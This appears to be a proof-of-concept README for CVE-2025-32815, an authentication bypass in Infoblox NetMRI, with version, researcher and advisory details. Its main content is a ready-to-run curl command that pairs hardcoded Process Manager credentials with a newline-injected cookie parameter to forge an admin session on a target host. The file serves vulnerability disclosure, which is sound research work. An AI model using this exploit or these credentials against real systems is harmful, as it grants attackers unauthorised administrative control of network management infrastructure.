

# CVE-2025-32815: Infoblox NetMRI Authentication Bypass via Hardcoded Credentials

## Information
**Description:** This exploits hardcoded Process Manager credentials to bypass authentication in Infoblox NetMRI.  
**Versions Affected:** 7.5.4.104695  
**Version Fixed:** 7.6.1  
**Researcher:** Dave Yesland (https://x.com/daveysec)  
**Disclosure Link:** https://rhinosecuritylabs.com/research/infoblox-multiple-cves/  
**NIST CVE Link:** https://nvd.nist.gov/vuln/detail/CVE-2025-32815  
**Vendor Advisory:** https://support.infoblox.com/s/article/Infoblox-NetMRI-is-vulnerable-to-CVE-2025-32815

## Proof-of-Concept Exploit
### Description
This exploit sends a newline-injected cookie value using known credentials to create an admin session. The cookie value returned can then be used for admin access.

### Usage/Exploitation
```
curl -c - -u '_pm:pm19726' -k 'https://<NETMRI_HOST>/netmri/common/SetRawCookie.tdf?name=test&value=%78%79%7a%0d%0a%55%73%65%72%4e%61%6d%65%3d%61%64%6d%69%6e'
```

### Screenshot

